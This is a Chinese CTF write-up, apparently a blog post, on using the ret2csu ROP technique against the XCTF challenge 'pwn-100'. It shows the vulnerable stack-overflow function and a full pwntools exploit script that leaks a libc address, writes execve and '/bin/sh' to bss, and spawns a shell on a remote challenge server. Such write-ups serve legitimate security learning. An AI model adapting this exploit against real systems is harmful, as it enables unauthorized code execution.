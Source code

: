 ```yaml
---
layout: article
key: ret2csu
pageview: true
title: ret2csu学习笔记
author: Ch4rc0al
categories:
  - WriteUps
tags:
  - Pwn	
  - CTF
---
```




最近学习了中级Rop中的`ret2csu`技巧，记录一篇WP来巩固学习

<!--more-->

## pwn-100

[例题 pwn-100](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4888&page=1)

>     Arch:     amd64-64-little
>     RELRO:    Partial RELRO
>     Stack:    No canary found
>     NX:       NX enabled
>     PIE:      No PIE (0x400000)

```c
int sub_40068E()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  sub_40063D((__int64)v1, 200);
  return puts("bye~");
}
```

此处有栈溢出漏洞，并且可以溢出很大

程序可以调用`puts`和`read`

思路：通过`ret2csu`调用`puts`获取`puts`函数的真实地址，通过`LibcSearcher`拿到基地址，调用`read`向bss段写入`execve`和`/bin/sh\x00`，调用`execve`拿到shell

```
from pwn import *
from LibcSearcher import LibcSearcher
context(os='linux',arch='amd64',log_level='debug')

sh=remote('111.200.241.244',53809)
#sh=process('./pwn100')
elf=ELF('./pwn100')
csu_end=0x40075A
csu_front=0x400740
puts_got=elf.got['puts']
read_got=elf.got['read']
main=0x40068e
bss_base=elf.bss();

def csu(rbx,rbp,r12,r13,r14,r15,last):
    payload='a'*0x40+'bbbbbbbb'
    payload+=p64(csu_end)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload+=p64(csu_front)+'a'*0x38+p64(last)
    sh.send(payload)
    sh.recvuntil('bye~\n')

csu(0,1,puts_got,0,0,puts_got,main)
puts_addr=u64(sh.recv()[:-1].ljust(0x8,'\x00'))


libc=LibcSearcher('puts',puts_addr)
libc_base=puts_addr-libc.dump('puts')

execve_addr = libc_base + libc.dump('execve')

csu(0,1,read_got,16,bss_base,0,main)

sh.send(p64(execve_addr)+'/bin/sh\x00')

csu(0,1,bss_base,0,0,bss_base+0x8,main)

sh.interactive()
```

